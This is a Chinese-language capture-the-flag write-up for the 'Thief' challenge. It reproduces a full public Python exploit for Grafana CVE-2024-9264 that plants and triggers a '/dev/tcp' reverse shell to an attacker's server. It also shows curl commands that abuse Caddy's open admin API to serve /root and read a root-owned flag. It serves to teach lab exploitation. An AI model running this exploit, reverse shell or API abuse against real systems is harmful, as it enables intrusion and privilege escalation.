






# Thief-Writeup

## 解题步骤
访问靶机得知这是Grafana，版本号为v11.0.0 (83b9528bce)

信息收集可以找到这个版本存在CVE-2024-9264，Github上也存在很多公开的Poc

利用Poc还需要先把账号密码拿出来，账号admin，对密码爆破，当响应为：`{"message":"Logged in","redirectUrl":"/"}`，状态码为200，成功登录
得到账密：admin / 1q2w3e


直接利用现有的Poc反弹shell：
> 以该项目为例：https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit

```python
import requests
import argparse

"""
Grafana Remote Code Execution (CVE-2024-9264) via SQL Expressions
See here: https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

Author: z3k0sec // www.zekosec.com
"""

def authenticate(grafana_url, username, password):
    """
    Authenticate to the Grafana instance.

    Args:
        grafana_url (str): The URL of the Grafana instance.
        username (str): The username for authentication.
        password (str): The password for authentication.

    Returns:
        session (requests.Session): The authenticated session.
    """
    # Login URL
    login_url = f'{grafana_url}/login'

    # Login payload
    payload = {
        'user': username,
        'password': password
    }

    # Create a session to persist cookies
    session = requests.Session()

    # Perform the login
    response = session.post(login_url, json=payload)

    # Check if the login was successful
    if response.ok:
        print("[SUCCESS] Login successful!")
        return session  # Return the authenticated session
    else:
        print("[FAILURE] Login failed:", response.status_code, response.text)
        return None  # Return None if login fails

def create_reverse_shell(session, grafana_url, reverse_ip, reverse_port):
    """
    Create a malicious reverse shell payload in Grafana.

    Args:
        session (requests.Session): The authenticated session.
        grafana_url (str): The URL of the Grafana instance.
        reverse_ip (str): The IP address for the reverse shell.
        reverse_port (str): The port for the reverse shell.
    """
    # Construct the reverse shell command
    reverse_shell_command = f"/dev/tcp/{reverse_ip}/{reverse_port} 0>&1"

    # Define the payload to create a reverse shell
    payload = {
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                # Using the reverse shell command from the arguments
                "expression": f"SELECT 1;COPY (SELECT 'sh -i >& {reverse_shell_command}') TO '/tmp/rev';",
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    # Send the POST request to execute the payload
    response = session.post(
        f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
        json=payload
    )

    if response.ok:
        print("Reverse shell payload sent successfully!")
        print("Set up a netcat listener on " + reverse_port)
    else:
        print("Failed to send payload:", response.status_code, response.text)

def trigger_reverse_shell(session, grafana_url):
    """
    Trigger the reverse shell binary.

    Args:
        session (requests.Session): The authenticated session.
        grafana_url (str): The URL of the Grafana instance.
    """
    # SQL command to trigger the reverse shell
    payload = {
        "queries": [
            {
                "datasource": {
                    "name": "Expression",
                    "type": "__expr__",
                    "uid": "__expr__"
                },
                # install and load the community extension "shellfs" to execute system commands (here: execute our reverse shell)
                "expression": "SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('bash /tmp/rev |');",
                "hide": False,
                "refId": "B",
                "type": "sql",
                "window": ""
            }
        ]
    }

    # Trigger the reverse shell via POST
    response = session.post(
        f"{grafana_url}/api/ds/query?ds_type=__expr__&expression=true&requestId=Q100",
        json=payload
    )

    if response.ok:
        print("Triggered reverse shell successfully!")
    else:
        print("Failed to trigger reverse shell:", response.status_code, response.text)

def main(grafana_url, username, password, reverse_ip, reverse_port):
    # Authenticate to Grafana
    session = authenticate(grafana_url, username, password)

    if session:
        # Create the reverse shell payload
        create_reverse_shell(session, grafana_url, reverse_ip, reverse_port)

        # Trigger the reverse shell binary
        trigger_reverse_shell(session, grafana_url)

if __name__ == "__main__":
    # Set up command line argument parsing
    parser = argparse.ArgumentParser(description='Authenticate to Grafana and create a reverse shell payload')
    parser.add_argument('--url', required=True, help='Grafana URL (e.g., http://127.0.0.1:3000)')
    parser.add_argument('--username', required=True, help='Grafana username')
    parser.add_argument('--password', required=True, help='Grafana password')
    parser.add_argument('--reverse-ip', required=True, help='Reverse shell IP address')
    parser.add_argument('--reverse-port', required=True, help='Reverse shell port')

    args = parser.parse_args()

    # Call the main function with the provided arguments
    main(args.url, args.username, args.password, args.reverse_ip, args.reverse_port)
```
运行Poc：
```bash
python poc.py --url http://target:port --username admin --password 1q2w3e --reverse-ip <your-vps-ip> --reverse-port <your-vps-port>
```

拿到grafana的shell



直接去读取/root/flag是没权限的，需要尝试提权
```bash
ps aux
```
发现caddy是由root用户启动的

同时也暴露了caddy的配置文件路径：/etc/caddy/caddy_config.json
```json
{
    "apps": {
        "http": {
            "servers": {
                "srv0": {
                    "listen": [":80"],
                    "routes": [
                        {
                            "handle": [
                                {
                                    "handler": "reverse_proxy",
                                    "upstreams": [
                                        {
                                            "dial": "127.0.0.1:3000"
                                        }
                                    ]
                                }
                            ]
                        }
                    ]
                }
            }
        }
    }
}
```
利用curl可以直接动态修改caddy的配置
> 详情参阅caddy-api文档：https://caddyserver.com/docs/api

成功返回配置，api默认2019端口正常开放
```bash
$ curl http://127.0.0.1:2019/config/

{"apps":{"http":{"servers":{"srv0":{"listen":[":80"],"routes":[{"handle":[{"handler":"reverse_proxy","upstreams":[{"dial":"127.0.0.1:3000"}]}]}]}}}}}
```

动态添加路由：将`/root/*`映射到系统根目录`/`
>注意需要添加`/0` 以确保在第一个槽位中添加监听器地址
```bash
curl -X PUT http://127.0.0.1:2019/config/apps/http/servers/srv0/routes/0 \
-H "Content-Type: application/json" \
-d '{
    "handle": [{
        "handler": "file_server",
        "root": "/"
    }],
    "match": [{
        "path": ["/root/*"]
    }]
}'
```
添加好路由后直接访问：http://target:port/root/flag 即可拿到flag


也可以新增一个服务器，监听放在其他端口
```bash
curl -s -X POST "http://127.0.0.1:2019/config/apps/http/servers/get_flag" \
-H "Content-Type: application/json" \
-d '{
    "listen": [":8888"],
    "routes": [{
        "handle": [{
            "handler": "file_server",
            "root": "/root"
        }]
    }]
}'
```
curl访问端口拿到flag
```bash
$ curl -s http://127.0.0.1:8888/flag       
SUCTF{c4ddy_4dm1n_4p1_2019_pr1v35c}
```